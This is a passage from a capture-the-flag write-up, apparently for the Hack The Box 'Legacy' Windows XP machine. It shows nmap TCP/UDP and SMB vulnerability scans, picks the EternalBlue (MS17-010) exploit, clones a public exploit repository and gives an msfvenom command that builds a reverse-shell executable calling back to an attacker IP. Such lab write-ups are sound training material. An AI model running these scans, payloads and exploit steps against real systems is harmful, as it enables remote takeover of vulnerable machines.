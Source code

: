```bash
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-11-10T09:54:47+02:00

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 485.76 seconds
```

Similarly, we run an nmap scan with the **sU** flag enabled to run a UDP scan.

We get back the following result. As can be seen, port 137 is open with netbios-ns running on it.

```bash
sudo nmap -sU -O -p- -oA nmap/udp 10.129.223.133
```

Our initial recon shows that the only point of entry is possibly through exploiting SMB.

## Enumeration

SMB has had its fair share of vulnerabilities in the past, so let’s first run nmap scripts to determine if it is vulnerable.

```bash
nmap -v -script smb-vuln* -p 139,445 10.129.223.133
```

The result shows us that it is vulnerable to CVE-2009–3103 and CVE-2017–0143 and likely vulnerable to CVE-2008–4250. The target machine is running SMBv1 so we’ll go with CVE-2017–0143 (MS17–010).

## Exploitation

The vulnerability we’ll be exploiting is called Eternal Blue. This vulnerability exploited Microsoft’s implementation of the Server Message Block (SMB) protocol, where if an attacker sent a specially crafted packet, the attacker would be allowed to execute arbitrary code on the target machine.

I came across this [article](https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/) that explains how to exploit the Eternal Blue vulnerability without
using Metasploit. We’ll use it to run the exploit on the target machine.

First, download the exploit code from Github.

```bash
git clone https://github.com/helviojunior/MS17-010.git
```

Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4242 -f exe > eternalblue.exe
```
